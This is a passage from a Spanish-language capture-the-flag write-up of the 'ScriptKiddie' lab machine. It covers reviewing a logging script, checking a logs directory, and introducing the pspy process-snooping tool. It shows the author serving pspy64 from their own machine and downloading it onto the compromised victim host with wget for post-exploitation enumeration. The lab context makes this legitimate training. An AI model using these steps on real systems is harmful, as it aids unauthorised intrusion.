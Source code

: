 Esta función utiliza la variable **regex_alphanum** para aplicar la busqueda de Exploit con **searchsploit**, esto lo hace en caso de que sea texto, caso contrario abrira el **archivo hackers** para agregar la fecha y el contenido de la **variable srcip** (que creo que es una IP) para al final mostrar un mensaje de que lo dejemos de hackear.

Quiero pensar que hizo esto para evitar alguna inyección en los campos de la página web.

Entiendo que el archivo **hackers**, va a guardar la fecha que se obtenga con el comando **datetime** para usarse después y se obtiene la IP con la función **srcip**. No se para que se ocupe, vamos a revisar ese archivo.

Ahora vayamos con el directorio **logs**. Lo único que hay, es el archivo **hackers**, pero no contiene nada:
```bash
kid@scriptkiddie:~$ cd logs/
kid@scriptkiddie:~/logs$ ls -la
total 8
drwxrwxrwx  2 kid kid 4096 Feb  3  2021 .
drwxr-xr-x 11 kid kid 4096 Feb  3  2021 ..
-rw-rw-r--  1 kid pwn    0 Feb  3  2021 hackers
kid@scriptkiddie:~/logs$ cat hackers 
kid@scriptkiddie:~/logs$
```
Puede que este ocurriendo un proceso en segundo plano, vamos a comprobarlo con la herramienta **pspy**.

<br>

<h3 id="Pspy">Encontrando Procesos Activos en Máquina Víctima con Pspy</h3>

¿Qué es lo que hace esta herramienta?

| **Herramienta PsPy** |
|:-----------:|
| *pspy es una herramienta de línea de comandos diseñada para espiar procesos sin necesidad de permisos de root. Le permite ver comandos ejecutados por otros usuarios, cron jobs, etc. mientras se ejecutan. Genial para enumerar sistemas Linux en CTFs. También es genial para demostrar a tus colegas por qué pasar secretos como argumentos en la línea de comandos es una mala idea. La herramienta recoge la información de los escaneos procfs. Los vigilantes Inotify colocados en partes seleccionadas del sistema de archivos activan estos escaneos para capturar procesos de corta duración.* |

Aca te dejo el **GitHub**:
* <a href="https://github.com/DominicBreuker/pspy" target="_blank">Repositorio de DominicBreuker: pspy - unprivileged Linux process snooping</a>

Descarga cualquiera, aunque yo use la version 64.

Una vez que lo tengas, levanta un servidor de **Python** para que con el comando **wget** podamos descargarlo de nuestra máquina a la máquina víctima:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.226 - - [12/Aug/2024 20:19:20] "GET /pspy64 HTTP/1.1" 200 -
```

Ahora usa el **comando wget** y de una vez dale permisos de ejecución:
```bash
kid@scriptkiddie:~$ wget http://TuIP/pspy64
wget http://TuIP/pspy64
--2024-08-13 02:19:21--  http://TuIP/pspy64
Connecting to TuIP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’
3000K .......... .......... .......... ..                   100% 10.8M=1.0s

2024-08-13 02:19:22 (2.95 MB/s) - ‘pspy64’ saved [3104768/3104768]

kid@scriptkiddie:~$ ls
ls
html
logs
pspy64
snap
```